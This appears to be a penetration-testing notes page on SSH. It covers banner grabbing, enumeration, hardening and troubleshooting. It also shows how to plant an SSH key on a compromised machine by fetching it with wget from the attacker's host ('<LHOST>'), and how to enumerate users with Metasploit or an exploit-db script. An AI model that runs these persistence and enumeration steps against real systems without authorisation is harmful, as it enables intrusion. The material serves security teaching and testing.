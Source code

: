 # 22 - SSH

## Theory

SSH, or **Secure Shell** or Secure Socket Shell, is a network protocol that provides users with a secure way to access a computer over an unsecured network.

{% hint style="success" %}
Attempt a SSH connection blindly (if we do not find any vulnerability) because sometimes we get a banner and we can get some information.
{% endhint %}

## Practice

### [Authentication](../general/lateral-movement/remote-services.md#ssh-lateral-movement)

### Banner grabbing

```bash
nc -vn <IP> 22
```

### SSH keys

For authentication with SSH keys, we can do it in 2 ways:

{% tabs %}
{% tab title="Way #1" %}
Create **SSH keys** on the compromised machine:

```bash
ssh-keygen # "Enter" all the time.
```

Rename the public key to "**authorized\_keys**":

```bash
mv id_rsa-pub authorized_keys
```

We copy the **id\_rsa** (private key) from the compromised machine to our system, and use it to authenticate:

```bash
ssh -i id_rsa <USERNAME>@<IP>
```
{% endtab %}

{% tab title="Way #2" %}
Create the **SSH keys** on our system:

```bash
ssh-keygen # "Enter" all the time.
```

We rename the file **id\_rsa.pub** (public key) to "**authorized\_keys**" and **transfer** it to the compromised machine, in the path `~/.ssh/authorized_keys`:

```bash
# On our attacking machine:
mv id_rsa.pub authorized_keys
sudo python3 -m http.server 80
# On the compromised machine:
wget http://<LHOST>/authorized_keys -O ~/.ssh/authorized_keys
```
{% endtab %}
{% endtabs %}

### Execute commands

```bash
# Spawn bash:
ssh <USER>@<IP> "<COMMAND>" 
ssh <USER>@<IP> -t "bash -l"
# Do not load the .bashrc file.
ssh <USER>@<IP> -f 'mv .bashrc .bashrc_bk; exit'
ssh <USER>@<IP> 'bash --norc'
```

### Fingerprint

#### How to check if SSH keys are valid with each other?

Sometimes, when we compromise a machine, we get the **authorized\_keys** (public key) and the **id\_rsa** (private key). However, **these keys may be unrelated**. To **verify** them, we **need both keys** and perform the following **commands**:

```bash
ssh-keygen -l -f authorized_keys
ssh-keygen -l -f id_rsa
```

If we see the same, both are related and it may be another factor why it is not letting us log in, such as restricted users in the **sshd\_config** file, etc. If they are not the same, you will have to look for other keys that are related or forget about that input vector.

#### SSH `from` directive

Specifies that in addition to public key authentication, the canonical name of the remote host or its IP address must be present in the comma-separated list of patterns. Example of an **authorized\_keys** with this directive:

```bash
from="*.example.test.com" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6C
cwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a
XQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP
/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewP
cafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1
tcJSPEn7WOD test@xd
```

In this case, it is from a domain, that we could try to add it with [nsupdate](53-dns/attack-techniques/dynamic-updates.md).

### Username enumeration

In some versions of OpenSSH you can do a timing attack to enumerate users. You can use a Python script or use a Metasploit module to exploit this:

```bash
# Metasploit
use scanner/ssh/ssh_enumusers
# Python script:
searchsploit -m linux/remote/45939.py
python 45939.py <IP> <USERNAME>
```

### Config files

```bash
ssh_config, sshd_config, authorized_keys, ssh_known_hosts, .shosts
```

{% hint style="danger" %}
Examining the /etc/ssh/sshd\_config file is very important, as you can see the port on which you listen (usually port 22), the users that are allowed to log in via SSH (AllowUsers property), whether you allow login with root (PermitRootLogin), etc.
{% endhint %}

### Root login

By default most SSH server implementation will allow root login, it is advised to disable it because if the credentials of this accounts leaks, attackers will get administrative privileges directly and this will also allow attackers to conduct bruteforce attacks on this account.

**How to disable root login for openSSH:**

1. Edit SSH server configuration `sudoedit /etc/ssh/sshd_config`
2. Change `#PermitRootLogin yes` into `PermitRootLogin no`
3. Take into account configuration changes: `sudo systemctl daemon-reload`
4. Restart the SSH server `sudo systemctl restart sshd`

## Troubleshooting

### Key exchange/encryption/host key (No matching)

```bash
# No matching key exchange method found:
ssh <IP> -oKexAlgorithms=+<KEY_EXCHANGE>
# No matching cipher found (with key exchange):
ssh <IP> -oKexAlgorithms=+<KEY_EXCHANGE> -c <CIPHER>
# No matching host key type found:
ssh <IP> -oHostKeyAlgorithms=+<HOST_KEY_TYPE>
```

### Problem in ssh2john

If we get the following message....:

```bash
AttributeError: module 'base64' has no attribute 'decodestring'
```

... we can solve this by editing a line in the **ssh2john** script:

![](../.gitbook/assets/ssh2john\_solved\_problem.png)
